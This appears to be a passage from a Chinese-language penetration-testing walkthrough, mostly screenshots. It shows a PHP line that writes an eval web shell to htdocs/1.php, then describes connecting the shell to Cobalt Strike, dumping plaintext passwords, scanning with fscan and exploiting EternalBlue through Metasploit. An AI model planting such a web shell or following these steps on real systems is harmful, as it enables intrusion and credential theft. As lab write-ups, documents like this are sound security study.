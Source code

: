 ![1747053884_6821ed3c81fd4414c20de.png!small?1747053885236](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXVkP9Q3XX9IIzm95Ddiaxef1I2jANquJskAE3ccyENaa9a47JxkWtYGQ/640?wx_fmt=jpeg&from=appmsg "")  
  
<?php  
  
file_put_contents("../htdocs/1.php", " <?php @eval($_POST['attack']);?>  
  
"); ?>成功写入，然后将其改为后门的木马  
  
![1747053896_6821ed48a2b40830cb628.png!small?1747053897214](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXhy8gHIU1ibMYjc1iaibA4DZTiaCGR4sgOd7IGH0JFssTIdDnL21pUAdoJQ/640?wx_fmt=jpeg&from=appmsg "")  
  
成功写入连接  
  
![1747053908_6821ed5475819d3b554a7.png!small?1747053910627](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXU88ibTMwFFmSLeicqNf99e4wapkIWDSzy6SsOOjwwVCpVbsiabXfEicsmg/640?wx_fmt=jpeg&from=appmsg "")  
  
将其连接到cs(生成后门上传执行）  
  
![1747053920_6821ed60ad830a714eaef.png!small?1747053921083](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXFLzjUkNcU5e06Atlwf5tIibocym1UJSx0IQ3NEjjBIn5fGXbmiarPUWg/640?wx_fmt=jpeg&from=appmsg "")  
### windows7  
### 信息收集  
  
![1747053943_6821ed778c7fe2a547427.png!small?1747053943415](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXficynyGibvy1HuqyT8XiaEUIzhbNeZssAmaUPniacG3h62MmlO5SCn8Jhw/640?wx_fmt=jpeg&from=appmsg "")  
  
端口扫描和探测  
  
并且抓取明文的密码  
  
![1747053952_6821ed8096000dd4e1e26.png!small?1747053952322](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOX9GNUZibCzCicSD3EI3BgKQZtpazIhaT6sNeohD8LlrXqVH99Jtv1r3pQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![1747053958_6821ed86c2afee9bdbd74.png!small?1747053958452](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOX1dLVJmoTNuXg9uhWU6rtYNIUHDnH9ITkLum8bkias2cPntFqD2hwlrg/640?wx_fmt=jpeg&from=appmsg "")  
  
发现129只有445端口  
  
将fscan传上去  
  
运行，发现![1747053972_6821ed9429b329afd7dbb.png!small?1747053971846](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXNQ9DvwicB2AyfwfBqy4pJOcGTRGDDdmQHFDz6KicqJmmXic1NW78do9Lw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
存在永恒之蓝  
### 永恒之蓝漏洞  
  
先将其转到msf上![1747054069_6821edf52eb331a923220.png!small](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXWLjib88aDYe5LjfvSO07T2eVHPZgryoZaQU4gCk6KuaBntibKeicpXNTw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
![1747054083_6821ee03bf1fd7ff66914.png!small?1747054083848](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXeZsHGribaxrJF0FYIYEoKGBdzjtIPnv0HibGVdmIobOTnibpX8KBVY5DA/640?wx_fmt=jpeg&from=appmsg "")  
  
![1747054090_6821ee0ad16e759c7f671.png!small?1747054090544](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXf4SWlvYyRbERxDGb45D7TfDSqrL5KqzhMKibbUQZ47Sz7eGh8xtEzvQ/640?wx_fmt=jpeg&from=appmsg "")  
  
或者直接用哥斯拉的传  
  
![1747054106_6821ee1a793498a9be2a3.png!small?1747054106238](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOX9ofkXCTeh1nS4AGkGjSlnC2r1HM6pxXfSnXHjcbT3emHpRWETFiabjw/640?wx_fmt=jpeg&from=appmsg "")  
  